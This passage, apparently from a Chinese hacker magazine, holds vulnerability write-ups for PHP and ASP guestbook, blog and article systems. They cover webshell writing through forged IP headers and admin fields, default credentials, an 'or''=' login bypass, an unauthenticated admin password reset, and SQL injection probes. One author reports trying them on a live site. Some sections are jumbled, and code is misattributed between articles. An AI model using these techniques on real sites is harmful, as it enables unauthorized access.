/////////// 取得浏览者的 ip 地址 ///////////////////
function getip() {
    $IP=getenv('REMOTE_ADDR');
    $IP_ = getenv('HTTP_X_FORWARDED_FOR');
    if (($IP_ != "") && ($IP_ != "unknown")) $IP=$IP_;
    return $IP;
}
```

显然对 ip 未做任何过滤，可伪造 `HTTP_X_FORWARDED_FOR` 或者 `REMOTE_ADDR` 为最小马，抓包提交，在 index.php 就存在将 ip 直接写入 `data/gb.php` 的地方。

# 漏洞三：后台设置存在多处写 webshell 的漏洞

其实上面我们已经把这个留言本糟蹋得差不多了，但是我觉得还是不够（小编：你 BT 哦！），于是便又看了看关于后台的一些代码，又有了很多收获。也不奇怪，前台的代码人家都懒得认真过滤，还期望后台能写得多安全吗？以下代码选自 `admin\index.php`。

- 1) 通过添加公告得到 shell, 看代码:

```php
if($action=="saying_add"){
    $saying=trim($saying);
    if($saying==""){goback("-1","公告不能为空");exit;}
// 添加的公告只要不为空就可以写入data/saying.php
$myfile->writetofile("../data/saying.php","$saying","w+");
    goback("-1","公告添加成功，请返回");
}
```

- 2) 通过添加禁止出现的词语，还是看代码:

```php
if($action=="badwords_add"){
    $newbadwords=trim($newbadwords);
    if($newbadwords==""){
    goback("-1","新添加的词语不能为空或空格");
    exit;
    }//添加的禁止词语只要不为空就可以写入 data/badwords.php
    $myfile->writetofile("../data/badwords.php",
"$newbadwords\n","a+");
    goback("-1","添加成功，请返回");
    }
```

当然，利用这两个漏洞的前提是你能进得去后台先，你可以选择坑蒙拐骗管理员，被扁了与我无关，默认的用户名和密码均为 siny，要说明的是，很多人是不会注意去修改这样的小系统的默认密码的。

# 总结漏洞类型

记得 bct 某牛人总结过 PHP+TXT 下的入侵方法，主要有：

- 一、利用我们写入的变量未过滤，直接写入 WEBSHELL。
- 二、利用 URL 中提交的变量未过滤，查看敏感文件代码。
- 三、利用程序文件中 include 可提交变量来获取 WEBSHELL。

总结得很精辟，可能是我太菜，找来找去也没在这个留言本里找到二，三两种类型的漏洞。但是换了其他的某个程序，可能漏洞反映的形式就变了，但归根结底是变量的不完全过滤造成的，任何时候用户提交的变量都可能是有害的。作为一个开发者，如



如果你不想被用户抛弃的话，请慎重的审核完你的代码再发表。

原理分析完了，到网上去找个站测试了一下。本来打算测试官方站点的，但是貌似他们没有使用这个程序。部分过程截图如图1、图2、图3，我就不废话了，大家自己看吧。

Ok，文章就到这里了，欢迎大家来《黑客手册》论坛和我交流，我的id是小天，最后，偶不善言辞，但还是要感谢侯莎同学一直以来对我的关心和帮助。



# 编辑点评：

此类漏洞利用起来最为简单，但貌似存在这样漏洞的还真不多，真是搞不明白，为什么要把输入的东西直接写在.php的文件里，这样一旦没有过滤好，就是WEBSHELL了，写在其他后缀的文件里，貌似还能糊弄下小菜菜；也可以考虑把这个文件写在外部地址，让程序去读，而不让直接在IE里面访问得到。



# MSMAX-blog 的致命伤

一月

- 从本文你可以学到：
1. MSMAX-blog 的 OR 漏洞
2. MSMAX-blog 的 任意修改管理员密码漏洞

这几天一直想架设一个 blog 玩，老用 sohu 的，都用烦了。于是在网上乱找，一款名叫 MSMAX-blog 的程序进入了我的视线。马上下回来本地架设看了下效果，样子一般化，那安全情况怎么样呢？那我也顺便帮他看看吧！

先是习惯性的看了看登录页面的代码，发现了下面的一段内容：

```asp
<%
    dim admin,password
    admin=request.form("admin")
    password=md5(request.form("password"))
    if admin<>"" then
        dim rs,strsql
        strsql="select * from users where admin='"&admin&"' and password='"&password&"'"
        set rs=db.execute(strsql)
        
        if not rs.eof and not rs.bof then
            session("msmax")=rs("admin")
            response.Redirect
```

```asp
"admin_index.asp"
        else
            response.write "<script>alert('对不起，此用户名不存在!');</script>"
        end if
    end if
%>
```

很明显可以看出来 admin 直接取值没经过过滤，难道会有 OR 这种漏洞？去测试一下看看。输入 `'or''='` 可是却出现了图1的画面。

虽然作者没有过滤 admin、password 的值，但是却限制了它的输入内容和用户名的位数（限制了只能输入6位），又看了下其他的地方希望可以找到跨站漏洞，无奈没有任何收获，作者将能用到



的全过滤了。

万般无奈下，去了 baidu 看，能找到用的资料不多，却找到了樱花浪子大哥发的一篇文章，说是可以将 admin/login.asp 页面另存，然后把 action="" 改成 action="http://127.0.0.1/admin/login.asp", 并删除限制语句就可以在本地使用 or 进入了!!

但是今天我要说的不是这个方法，因为我发现了一个更恐怖的地方，这个漏洞来源于 admin 下的 uesr.asp 文件，看代码：



```asp
dim admin,password,rers,restrsql,repassword
admin=request.form("admin")
password=md5(request.form("password"))
repassword=md5(request.form("repassword"))
if admin<>"" then
    if repassword=password then
        set rers=server.createobject("adodb.recordset")
        restrsql="select * from users"
        strsql="update users set admin='"&admin&"' and password='"&password&"' where admin='"&name&"'"
        set rs=db.execute(strsql)
        rers.open restrsql,db,0,2
        rers.addnew restrsql
        rers("admin")=admin
        rers("password")=password
        rers.update
        response.write "<script>alert('添加成功!');</script>"
    else
        response.write "<script>alert('密码不一致!');form1.admin.focus();</script>"
    end if
end if
```



大家看看，这个文件没有限制访问权限，谁都可以浏览（个人认为 admin 下的任何文件都不应该由用户能访问）。那么它是做什么？相信大家也可以看出来了！跟我去测试下吧！！如图 2，图 3！

看！我们已经把管理员的帐号密码改成了 yueyue 了！那么到底是真改了还是假改了？我们去登录，如图 4。



了吧！现在我们就是明正言顺的管理员了。（这里要说明一下，不知道为什么我进入后台却不见 user.asp 的相关页面链接，很不明白为什么有这个文件但进入后却没地方访问？）

最后我还发现这套程序 admin 下的文件几乎都没有做什么访问限制，全部都可以访问！而且对 blog 文章可以任意更改！我们很轻松的就删掉了！很恐怖吧！

# 结尾

虽然进了后台，但是却拿不到 shell，后台的结构可以说是比较简陋，要是有高手能拿到，希望赐教一下！欢迎大家和我交流，我的论坛 ID 是月无痕。

> 编辑点评：MSMAX-blog 也暴过不少漏洞了，关注的人也多了起来，作者这次说的是个很致命的漏洞，可以任意修改管理员密码，进而进入后台，但是能不能拿到 Webshell，还要靠大家继续研究和挖掘了，有什么发现，记得写稿和大家分享哈。

## 免费交友跟我走 ——分析涵舍交友系统

月无痕[LST]

- 从本文你可以学到：
1. 爆库漏洞的分析
2. 注入漏洞的手工精解

# 一、前言

前几天花非花叫我帮他下了款程序，他要拿去分析下，结果程序帮他下好了，那天走的时候又没问我要。汗死了（这不是资源浪费么！^—^）！那我就自己操刀来分析下吧！（读者：哥们，你用菜刀来分析 asp？）

## 二、进入主题

### 1、爆库

首先我们看一下这个 conn.asp 文件：

```asp
'response.write "正在升级新版... 请等待几分钟..."

'response.end

'on error resume next

dim ax

ax=6

if ax=1 then
代码省略...
```

```asp
else
set conn=server.createobject("adodb.connection")
conn.open"Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath("1999yin123.asp")
end if
```

大家看下，很明显的错误！容错语句被注释掉了，估计是作者在调试程序的时候加的，最后忘了去掉就发布出来，很明显的爆库漏洞！大家看下图 1 吧！



### 2、注入漏洞

大家放心，不会只有个爆库的！要不黑手的老编们会杀了我的！理由是浪费时间！（老编：我有那么残忍么！）下面我又看了一个名为 dis_article.asp 的文件！代码如下：

```asp
conn.execute"update love_article set click=click+1 where flag=1 and id="&replace(request("ClassID"),"'","''")
set rs=server.createobject("adodb.recordset")
if request("ifok")="嗯" then
```

## 新云文章系统最新版漏洞解析

落叶纷飞

从本文你可以学到：

- 1. 新云文章系统的一个新漏洞
- 2. 漏洞的分析、利用

记得新云最新的漏洞应该是那个下载任意文件的漏洞，近日无聊，又上不了网，就下了套新云文章系统回来看。这不，居然给我这个被 CN 里的人叫做小 P 孩的 15 岁小孩看出了个洞子来，呵呵，想想也挺高兴的，下面我就来和大家分享发现这个漏洞的过程吧！

新云程序的代码我除了 admin 文件夹里的文件没看完之外，其他的文件我都看遍了。所有管理文件都做了权限设置，还有就是几乎所有变量都用了 checkstr、clng、cint 等函数过滤，把我搞得好不郁闷的。找啊找，终于找到了一个大洞子，呵呵。现在我们先来看看 checkstr 函数，代码如下：

```sql
sql="select * from love_article where id="&clng(replace(request("ClassID"),"'",""))
else
sql="select * from love_article where flag=1 and id="&replace(request("ClassID"),"'","") '注释下只过滤了单引号
end if

rs.open sql,conn,1,1
IF (rs.State=adStateClosed) or (rs.BOF=true and rs.EOF=true) or (rs.RecordCount=0 THEN
```

我们可以从上面的代码发现，程序中对 ClassID 只用 replace 过滤掉了单引号，猛的一看貌似过滤了，其实仔细一想，过滤掉单引号对我们并没有什么大的影响啊！于是注入漏洞就产生了！！大家快跟着我去测试一下，找到一个连接，在后面加上 and 1=1 和 and 1=2 效果如图 2、图 3！



yes! 看来可以注入，接着我们继续提交：http://localhost/jy/dis_article.asp?classid=39%20and%20(select%20count(*)%20from%20adminuser)>0 这里的 adminuser 是我去查看了数据库，刚开始老猜不出，就直接看数据库了，忽忽！返回如图 4！



